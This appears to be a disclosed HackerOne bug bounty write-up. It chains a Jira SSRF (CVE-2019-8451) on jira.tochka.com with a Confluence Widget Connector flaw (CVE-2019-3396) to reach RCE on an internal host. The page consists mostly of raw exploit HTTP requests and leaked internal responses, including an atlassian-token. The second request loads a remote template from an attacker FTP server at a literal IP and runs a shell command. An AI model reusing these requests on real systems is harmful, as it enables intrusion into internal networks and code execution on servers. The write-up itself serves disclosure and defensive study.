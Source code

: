# 29

## [ \#713900](https://hackerone.com/reports/713900) Unauthenticated SSRF in jira.tochka.com leading to RCE in confluence.bank24.int

* Asset: QIEWI
* Weakness: Code Injection
* Bounty: $1,000

An interesting vulnerabilities chain allows RCE.

Vul1 is an SSRF trigger by the CVE-2019-8451（[SSRF in the /plugins/servlet/gadgets/makeRequest resource - CVE-2019-8451](https://jira.atlassian.com/browse/JRASERVER-69793).）

PoC: [https://jira.tochka.com:443@example.com/](https://jira.tochka.com:443@example.com/)

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int
```

Get the response about confluence.bank24.int:

```http
throw 1; < don't be evil' >{"https://jira.tochka.com:443@confluence.bank24.int":{"rc":200,"headers":{},"body":"<!DOCTYPE html>\n<html>\n<head>\n                    <title>Рабочий стол - Confluence<\/title>\n    \n        \n\n                        \n    \n                        \n    \n\n    \n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=EDGE,chrome=IE7\">\n<meta charset=\"UTF-8\">\n<meta id=\"confluence-context-path\" name=\"confluence-context-path\" content=\"\">\n<meta id=\"confluence-base-url\" name=\"confluence-base-url\" content=\"https://confluence.bank24.int\">\n\n<meta id=\"atlassian-token\" name=\"atlassian-token\" content=\"f999fa99a5663c168e72b407eecdeec3695c70d0\">\n\n\n<script type=\"text/javascript\">\n        var contextPath = '';\n<\/script>\n\n    \n\n    <meta name=\"confluence-request-time\" content=\"1571051898165\">\n        \n    \n        \n            <meta name=\"ajs-discovered-plugin-features\" content=\"$discoveredList\">\n            <meta name=\"ajs-use-keyboard-shortcuts\" content=\"true\">\n            <meta name=\"ajs-keyboardshortcut-hash\" content=\"97637bc20dfc7a1f15684630bc99897\">\n            <meta id=\"team-calendars-has-jira-link\" content=\"true\">\n            <meta name=\"ajs-team-calendars-display-time-format\" content=\"displayTimeFormat24\">\n            <meta id=\"team-calendars-display-week-number\" content=\"false\">\n            <meta
```



Vul2 is another CVE-2019-3396, case by the Widget Connector

[https://confluence.bank24.int/rest/tinymce/1/macro/preview](https://confluence.bank24.int/rest/tinymce/1/macro/preview%29%20) can be accessed without authentification by design,  and attacker can set up an FTP server to make the RCE:

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 322
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int/rest/tinymce/1/macro/preview&httpMethod=POST&headers=content-type%3Dapplication/json&postData={"contentId":"1","macro":{"body":"","params":{"url":"https://www.youtube.com/watch?v=y6sOtXOvchY","_template":"ftp://68.183.67.159/qwe2.txt","command":"id"},"name":"widget"}}
```

![SSRF](../../../.gitbook/assets/image%20%289%29%20%281%29.png)



![RCE](../../../.gitbook/assets/image%20%2810%29.png)





